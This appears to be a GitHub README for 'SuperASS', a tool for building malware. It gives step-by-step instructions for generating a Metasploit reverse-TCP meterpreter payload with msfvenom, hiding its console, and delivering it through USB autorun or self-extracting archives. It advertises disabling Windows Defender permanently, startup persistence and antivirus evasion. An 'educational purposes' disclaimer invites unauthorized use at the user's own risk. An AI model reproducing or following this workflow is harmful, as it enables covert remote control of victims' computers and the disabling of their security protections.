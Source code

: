 
<h1 align="center">SuperASS v1.0</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-green?style=for-the-badge">
  <br>
  <br>
  <img src="https://img.shields.io/badge/Author-AbdulazizDXT-green?style=flat-square">
  <img src="https://img.shields.io/badge/Made%20in-Oman-green?style=flat-square">
  <img src="https://img.shields.io/badge/Powerd%20BY-Python%20&%20Metasploit-green?style=flat-square">
</p>

## [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

## [+] Installation

##### The SuperASS project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperASS```
    - ```cd SuperASS```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run "Root Users {sudo su}":
```
git clone https://github.com/AbdulazizDXT/SuperASS ;cd SuperASS ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperASS file window will open automatically after installation
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files


## [+] Use SuperASS In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

## [+]  Use SuperASS In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type MIN (1).exe & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

## Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!

## [+] Something very important!

- This tool is developed for educational purposes. Here he explains how hacking works. If anyone wants to gain unauthorized access to someone's devices, they can try it at their own risk. You have your own responsibilities and you are responsible for any damage or violation of laws by this tool. The author is not responsible for any misuse of SuperASS!
 
## [+] I'm Here!


- [![Github](https://img.shields.io/badge/Github-AbdulazizDXT-green?style=for-the-badge&logo=github)](https://github.com/AbdulazizDXT)

- [![Gmail](https://img.shields.io/badge/Gmail-AbdulazizDXT-green?style=for-the-badge&logo=gmail)](mailto:Abdulazizalhasaniwin@gmail.com)

